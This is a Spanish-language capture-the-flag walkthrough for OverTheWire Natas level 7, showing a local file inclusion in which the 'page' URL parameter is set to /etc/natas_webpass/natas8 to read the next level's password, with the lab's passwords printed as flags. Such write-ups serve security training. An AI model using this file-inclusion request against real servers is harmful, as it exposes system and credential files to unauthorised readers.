 #Natas Level 6 → Level 7

Username: natas7

URL:      http://natas7.natas.labs.overthewire.org

##Write Up Iker

Abrimos un navegador y nos conectamos a la página: 

- **URL        : http://natas7.natas.labs.overthewire.org** 
- **Usuario    : natas7**
- **Contraseña : 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9**

La contraseña la hemos sacado del nivel anterior.

Accedemos a la página y nos salen dos enlaces:

```html
  home
  about
```

Vemos el código fuente de la página y nos muestra lo siguiente:

```html
<body>
<h1>natas7</h1>
<div id="content">

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>
this is the about page

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
</div>
</body>
```

Nos dice que la password para el usuario **natas8** está en la dirección **/etc/natas_webpass/natas8**

Observamos como hace la petición para las dos páginas:

```html
http://natas7.natas.labs.overthewire.org/index.php?page=home
http://natas7.natas.labs.overthewire.org/index.php?page=about
```

Probamos a poner el valor **/etc/natas_webpass/natas8** en el parámetro **page** de esta forma

```html
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
```

Y nos devuelve un texto que contiene la contraseña :)

**FLAG** = {DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe}
